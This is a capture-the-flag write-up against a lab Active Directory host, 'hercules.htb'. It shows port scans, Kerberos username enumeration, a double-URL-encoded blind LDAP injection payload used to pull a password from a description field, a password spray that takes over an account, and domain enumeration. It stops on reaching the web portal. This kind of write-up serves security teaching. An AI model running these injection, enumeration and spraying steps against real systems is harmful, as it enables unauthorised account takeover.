# Hercules
> PLEASE NOTE: THE MACHINE WAS BOOTED SEVERAL TIMES OVER SO IP ADDRESSES MAY BE DIFFERENT
## Host file setup
```python
sudo nxc smb 10.129.242.196 --generate-hosts-file /etc/hosts                                         
[sudo] password for kali: 
SMB         10.129.242.196  445    dc               [*]  x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:None) (NTLM:False)
```

NTLM auth is disabled 

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT -Pn dc.hercules.htb -vv

Nmap scan report for dc.hercules.htb (10.129.242.196)
Host is up, received user-set (0.014s latency).
Scanned at 2026-09-11 17:52:34 BST for 66s
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
80/tcp    open  http             syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
443/tcp   open  https            syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5986/tcp  open  wsmans           syn-ack
9389/tcp  open  adws             syn-ack
49664/tcp open  unknown          syn-ack
49668/tcp open  unknown          syn-ack
51753/tcp open  unknown          syn-ack
56289/tcp open  unknown          syn-ack
56313/tcp open  unknown          syn-ack
57888/tcp open  unknown          syn-ack
57897/tcp open  unknown          syn-ack
```

### Nmap
```python
nmap -p 53,80,88,135,139,389,443,445,464,593,636,3268,3269,5985,9389 -A --min-rate=2000 -sT -Pn dc.hercules.htb
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-11 17:54 +0100
Nmap scan report for dc.hercules.htb (10.129.242.196)
Host is up (0.014s latency).

PORT     STATE    SERVICE       VERSION
53/tcp   open     domain        Simple DNS Plus
80/tcp   open     http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to https://dc.hercules.htb/
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-11 16:55:00Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: hercules.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hercules.htb
| Subject Alternative Name: DNS:dc.hercules.htb, DNS:hercules.htb, DNS:HERCULES
| Not valid before: 2024-12-04T01:34:52
|_Not valid after:  2034-12-02T01:34:52
|_ssl-date: TLS randomness does not represent time
443/tcp  open     ssl/https     Microsoft-IIS/10.0
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=hercules.htb
| Subject Alternative Name: DNS:hercules.htb
| Not valid before: 2024-12-04T01:34:56
|_Not valid after:  2034-12-04T01:44:56
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hercules.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.hercules.htb
| Subject Alternative Name: DNS:dc.hercules.htb, DNS:hercules.htb, DNS:HERCULES
| Not valid before: 2024-12-04T01:34:52
|_Not valid after:  2034-12-02T01:34:52
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: hercules.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.hercules.htb
| Subject Alternative Name: DNS:dc.hercules.htb, DNS:hercules.htb, DNS:HERCULES
| Not valid before: 2024-12-04T01:34:52
|_Not valid after:  2034-12-02T01:34:52
3269/tcp open     ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hercules.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hercules.htb
| Subject Alternative Name: DNS:dc.hercules.htb, DNS:hercules.htb, DNS:HERCULES
| Not valid before: 2024-12-04T01:34:52
|_Not valid after:  2034-12-02T01:34:52
|_ssl-date: TLS randomness does not represent time
5985/tcp filtered wsman
9389/tcp open     mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|10|11|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### System time
```python
ntpdate dc.hercules.htb
2026-09-11 17:57:45.113530 (+0100) -0.012739 +/- 0.101796 dc.hercules.htb 10.129.242.196 s1 no-leap
CLOCK: adj_systime: Operation not permitted
```

So since NTLM is disabled its worth checking what the clock skew is since ill be working with kerberos, but in this case its running at the same time as me

## Kerberos (88)
Im gong to leave kerbrute running in the background to try and enumerate some valid users

## SMB (445)

Null auth is not worth testing for here since there is no NTLM

Guest account disabled

## HTTP (80)

```python
curl -s http://hercules.htb/ -v            
* Host hercules.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.242.196
*   Trying 10.129.242.196:80...
* Established connection to hercules.htb (10.129.242.196 port 80) from 10.10.14.61 port 46348 
* using HTTP/1.x
> GET / HTTP/1.1
> Host: hercules.htb
> User-Agent: curl/8.21.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 301 Moved Permanently
< Content-Type: text/html; charset=UTF-8
< Location: https://hercules.htb/
< Server: Microsoft-IIS/10.0
< Date: Fri, 11 Sep 2026 17:03:19 GMT
< Content-Length: 144
< 
<head><title>Document Moved</title></head>
* Connection #0 to host hercules.htb:80 left intact
<body><h1>Object Moved</h1>This document may be found <a HREF="https://hercules.htb/">here</a></body>
```

So like nmap said, the webserver on port 80 is redirecting to the server on 443

## HTTPS (443)

There isnt a lot on the website apart from a contact page which doesnt look to be vulnerable in any way

### Feroxbuster
```python
feroxbuster -u https://hercules.htb/ -C 404 --dont-filter --insecure

200      GET       53l      162w     3213c https://hercules.htb/login
```

There are a lot of other endpoints, but most of them exist inside content and are all either framework js files or images



This is the logon portal


This kinda prevents me from fuzzing the logon portal, and anything suspicious will be flagged



Using `*:*` i get the error invalid username, i think this may be vulnerable to LDAP injection

Kerbrute found the username `auditor` and since i know this logon portal is using domain credentials i tested the creds `auditor:*` and it gave the error `login attempt failed`

## LDAP injection

Kerbrute has just found the name `will.s`

```python
kerbrute userenum --dc dc.hercules.htb -d hercules.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 30

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/14/26 - Ronnie Flathers @ropnop

2026/09/14 16:03:01 >  Using KDC(s):
2026/09/14 16:03:01 >  	dc.hercules.htb:88

2026/09/14 16:03:01 >  [+] VALID USERNAME:	admin@hercules.htb
2026/09/14 16:03:01 >  [+] VALID USERNAME:	administrator@hercules.htb
2026/09/14 16:03:01 >  [+] VALID USERNAME:	Admin@hercules.htb
2026/09/14 16:03:07 >  [+] VALID USERNAME:	Administrator@hercules.htb
2026/09/14 16:03:14 >  [+] VALID USERNAME:	auditor@hercules.htb
2026/09/14 16:03:36 >  [+] VALID USERNAME:	ADMIN@hercules.htb
2026/09/14 16:11:21 >  [+] VALID USERNAME:	will.s@hercules.htb
2026/09/14 17:06:00 >  [+] VALID USERNAME:	aDmin@hercules.htb
2026/09/14 17:06:18 >  [+] VALID USERNAME:	Will.S@hercules.htb
2026/09/14 17:12:09 >  [+] VALID USERNAME:	AUDITOR@hercules.htb
2026/09/14 17:13:44 >  Done! Tested 8295455 usernames (10 valid) in 4243.378 seconds
```

After a whole lot of testing and using errors to enumerate further i think there is a character blacklist on the LDAP injection which means i cant use chars such as `*`

But it looks like a double URL encoding works

```python
*)(description=a*
```

I will try an enumerate the description field for one of these users, i will put this into cyberchef



This is my strategy, i will double URL encode the payload to avoid the blacklist then simply just send request until i get a different error message



Using the `a` as the first character i get the error `Invalid login attempt` and also the same with `b` so this tells me this error is an invalid character



But now using `c` i get `Login attempt failed` this tells me this is a valid character, ill continue this process

Ill also ask AI to make me a list of users following the format of a user i know exists `will.s`

```python
kerbrute userenum --dc dc.hercules.htb -d hercules.htb usernames.txt -t 30

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/14/26 - Ronnie Flathers @ropnop

2026/09/14 17:21:12 >  Using KDC(s):
2026/09/14 17:21:12 >  	dc.hercules.htb:88

2026/09/14 17:21:12 >  [+] VALID USERNAME:	ashley.b@hercules.htb
2026/09/14 17:21:14 >  [+] VALID USERNAME:	elijah.m@hercules.htb
2026/09/14 17:21:14 >  [+] VALID USERNAME:	fiona.c@hercules.htb
2026/09/14 17:21:14 >  [+] VALID USERNAME:	heather.s@hercules.htb
2026/09/14 17:21:14 >  [+] VALID USERNAME:	jacob.b@hercules.htb
2026/09/14 17:21:14 >  [+] VALID USERNAME:	jennifer.a@hercules.htb
2026/09/14 17:21:15 >  [+] VALID USERNAME:	jessica.e@hercules.htb
2026/09/14 17:21:15 >  [+] VALID USERNAME:	joel.c@hercules.htb
2026/09/14 17:21:15 >  [+] VALID USERNAME:	johanna.f@hercules.htb
2026/09/14 17:21:16 >  [+] VALID USERNAME:	mark.s@hercules.htb
2026/09/14 17:21:16 >  [+] VALID USERNAME:	mikayla.a@hercules.htb
2026/09/14 17:21:16 >  [+] VALID USERNAME:	natalie.a@hercules.htb
2026/09/14 17:21:16 >  [+] VALID USERNAME:	patrick.s@hercules.htb
2026/09/14 17:21:17 >  [+] VALID USERNAME:	stephanie.w@hercules.htb
2026/09/14 17:21:17 >  [+] VALID USERNAME:	stephen.m@hercules.htb
2026/09/14 17:21:18 >  [+] VALID USERNAME:	vincent.g@hercules.htb
2026/09/14 17:21:18 >  [+] VALID USERNAME:	will.s@hercules.htb
2026/09/14 17:21:22 >  Done! Tested 13234 usernames (17 valid) in 9.970 seconds
```

Found more users!

Now i have more users its possible i have to target a specific users description field, so i can use this in my LDAP injection payload



After continuous testing of this description field i know there is a password `change*th1s_p@ssw()rd!!` but not yet sure which user its for

Ill spray this password against my current userlist, since this logon is vulnerable to LDAP injection it will use domain creds so a valid domain logon is also a valid website logon

There is no valid logons, the password could be for a user ive not discovered yet

Ill ask AI to extend this userlist further

```python
kerbrute userenum --dc dc.hercules.htb -d hercules.htb usernames_extended.txt -t 30

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/14/26 - Ronnie Flathers @ropnop

2026/09/14 17:52:54 >  Using KDC(s):
2026/09/14 17:52:54 >  	dc.hercules.htb:88

2026/09/14 17:52:55 >  [+] VALID USERNAME:	ashley.b@hercules.htb
2026/09/14 17:52:57 >  [+] VALID USERNAME:	elijah.m@hercules.htb
2026/09/14 17:52:57 >  [+] VALID USERNAME:	fiona.c@hercules.htb
2026/09/14 17:52:58 >  [+] VALID USERNAME:	heather.s@hercules.htb
2026/09/14 17:52:58 >  [+] VALID USERNAME:	jacob.b@hercules.htb
2026/09/14 17:52:58 >  [+] VALID USERNAME:	jennifer.a@hercules.htb
2026/09/14 17:52:58 >  [+] VALID USERNAME:	jessica.e@hercules.htb
2026/09/14 17:52:58 >  [+] VALID USERNAME:	joel.c@hercules.htb
2026/09/14 17:52:58 >  [+] VALID USERNAME:	johanna.f@hercules.htb
2026/09/14 17:52:59 >  [+] VALID USERNAME:	ken.w@hercules.htb
2026/09/14 17:53:00 >  [+] VALID USERNAME:	mark.s@hercules.htb
2026/09/14 17:53:00 >  [+] VALID USERNAME:	mikayla.a@hercules.htb
2026/09/14 17:53:01 >  [+] VALID USERNAME:	natalie.a@hercules.htb
2026/09/14 17:53:01 >  [+] VALID USERNAME:	patrick.s@hercules.htb
2026/09/14 17:53:01 >  [+] VALID USERNAME:	ray.n@hercules.htb
2026/09/14 17:53:01 >  [+] VALID USERNAME:	rene.s@hercules.htb
2026/09/14 17:53:03 >  [+] VALID USERNAME:	stephanie.w@hercules.htb
2026/09/14 17:53:03 >  [+] VALID USERNAME:	stephen.m@hercules.htb
2026/09/14 17:53:03 >  [+] VALID USERNAME:	tanya.r@hercules.htb
2026/09/14 17:53:03 >  [+] VALID USERNAME:	vincent.g@hercules.htb
2026/09/14 17:53:03 >  [+] VALID USERNAME:	will.s@hercules.htb
2026/09/14 17:53:05 >  Done! Tested 20170 usernames (21 valid) in 11.064 seconds
```

Found a few more users!

Ill now perform this password spray again

## Valid domain credentials and access to web portal

```python
nxc smb dc.hercules.htb -u confirmed_users.txt -p 'change*th1s_p@ssw()rd!!' -k --continue-on-success 
SMB         dc.hercules.htb 445    dc               [*]  x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\ashley.b:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\elijah.m:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\fiona.c:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\heather.s:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\jacob.b:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\jennifer.a:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\jessica.e:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\joel.c:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\johanna.f:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [+] hercules.htb\ken.w:change*th1s_p@ssw()rd!! 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\mark.s:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\mikayla.a:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\natalie.a:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\patrick.s:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\ray.n:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\rene.s:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\stephanie.w:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\stephen.m:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\tanya.r:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\vincent.g:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\will.s:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\auditor:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
SMB         dc.hercules.htb 445    dc               [-] hercules.htb\admin:change*th1s_p@ssw()rd!! KDC_ERR_PREAUTH_FAILED 
```

I have compromised `ken.w`

```python
ken.w:change*th1s_p@ssw()rd!!
```

## Domain Enumeration as `ken.w`

### Password policy
```python
nxc smb dc.hercules.htb -u ken.w -p 'change*th1s_p@ssw()rd!!' -k --pass-pol                         
SMB         dc.hercules.htb 445    dc               [*]  x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.hercules.htb 445    dc               [+] hercules.htb\ken.w:change*th1s_p@ssw()rd!! 
SMB         dc.hercules.htb 445    dc               [+] Dumping password info for domain: HERCULES
SMB         dc.hercules.htb 445    dc               Minimum password length: 7
SMB         dc.hercules.htb 445    dc               Password history length: None
SMB         dc.hercules.htb 445    dc               Maximum password age: 
SMB         dc.hercules.htb 445    dc               
SMB         dc.hercules.htb 445    dc               Password Complexity Flags: 000001
SMB         dc.hercules.htb 445    dc                   Domain Refuse Password Change: 0
SMB         dc.hercules.htb 445    dc                   Domain Password Store Cleartext: 0
SMB         dc.hercules.htb 445    dc                   Domain Password Lockout Admins: 0
SMB         dc.hercules.htb 445    dc                   Domain Password No Clear Change: 0
SMB         dc.hercules.htb 445    dc                   Domain Password No Anon Change: 0
SMB         dc.hercules.htb 445    dc                   Domain Password Complex: 1
SMB         dc.hercules.htb 445    dc               
SMB         dc.hercules.htb 445    dc               Minimum password age: None
SMB         dc.hercules.htb 445    dc               Reset Account Lockout Counter: 10 minutes 
SMB         dc.hercules.htb 445    dc               Locked Account Duration: 10 minutes 
SMB         dc.hercules.htb 445    dc               Account Lockout Threshold: None
SMB         dc.hercules.htb 445    dc               Forced Log off Time: Not Set
```

There is no lockout policy!

### Shares
```python
nxc smb dc.hercules.htb -u ken.w -p 'change*th1s_p@ssw()rd!!' -k --shares  
SMB         dc.hercules.htb 445    dc               [*]  x64 (name:dc) (domain:hercules.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.hercules.htb 445    dc               [+] hercules.htb\ken.w:change*th1s_p@ssw()rd!! 
SMB         dc.hercules.htb 445    dc               [*] Enumerated shares
SMB         dc.hercules.htb 445    dc               Share           Permissions     Remark
SMB         dc.hercules.htb 445    dc               -----           -----------     ------
SMB         dc.hercules.htb 445    dc               ADMIN$                          Remote Admin
SMB         dc.hercules.htb 445    dc               C$                              Default share
SMB         dc.hercules.htb 445    dc               Department                      
SMB         dc.hercules.htb 445    dc               IPC$            READ            Remote IPC
SMB         dc.hercules.htb 445    dc               NETLOGON        READ            Logon server share 
SMB         dc.hercules.htb 445    dc               Reports                         
SMB         dc.hercules.htb 445    dc               SYSVOL          READ            Logon server share 
SMB         dc.hercules.htb 445    dc               Users           READ
```

Read access on the Users share

### Users
```python
nxc smb dc.hercules.htb -u ken.w -p 'change*th1s_p@ssw()rd!!' -k --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC$
jessica.e
mikayla.a
stephanie.w
johanna.f
heather.s
camilla.b
iis_administrator
taylor.m
fernando.r
james.s
anthony.r
iis_webserver$
iis_hadesapppool$
iis_apppoolidentity$
iis_defaultapppool$
auditor
vincent.g
nate.h
stephen.m
mark.s
elijah.m
angelo.o
ashley.b
clarissa.c
winda.s
rene.s
will.s
zeke.s
adriana.i
tish.c
jennifer.a
shae.j
joel.c
jacob.b
web_admin
bob.w
ken.w
johnathan.j
harris.d
ray.n
natalie.a
ramona.l
fiona.c
patrick.s
tanya.r
WINSRV01-2016$
WINSRV02-2016$
WINSRV03-2016$
ENTERPRISE01-8.1$
ENTERPRISE02-8.1$
Admin
```

I will now dump all the users in the domain!

There are also no more passwords stored in account descriptions!

Also no password reuse

There are no GPP passwords

No kerberoastable or asreproastable users

Nothing interesting in bloodhound at the moment

## Access to the hercules web portal

The credentials found will also help me get access to the web portal



The credentials also get me access to the web portal



An interesting message in the mail section



Also another potentially interesting endpoint

